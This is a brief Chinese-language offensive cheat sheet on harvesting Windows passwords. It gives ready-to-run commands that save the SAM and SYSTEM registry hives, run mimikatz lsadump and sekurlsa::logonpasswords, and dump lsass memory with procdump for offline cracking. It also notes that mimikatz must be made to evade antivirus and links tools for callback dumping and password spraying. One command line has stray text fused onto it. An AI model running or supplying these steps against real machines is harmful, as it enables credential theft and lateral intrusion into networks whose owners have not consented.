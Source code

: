 

## Windows Server 2003、Windows Server 2008、Windows 7 获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

通过 Procdump 获取 lsass 抓内存中的明文密码

通过procdump下载lsass信息

procdump.exe -accepteula -ma lsass.exe lsass.dmp

回传本地获取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

## 解密码项目

  https://github.com/seventeenman/CallBackDump
  
  
## 密码喷洒

  https://github.com/Porchetta-Industries/CrackMapExec/releases/tag/v5.4.0
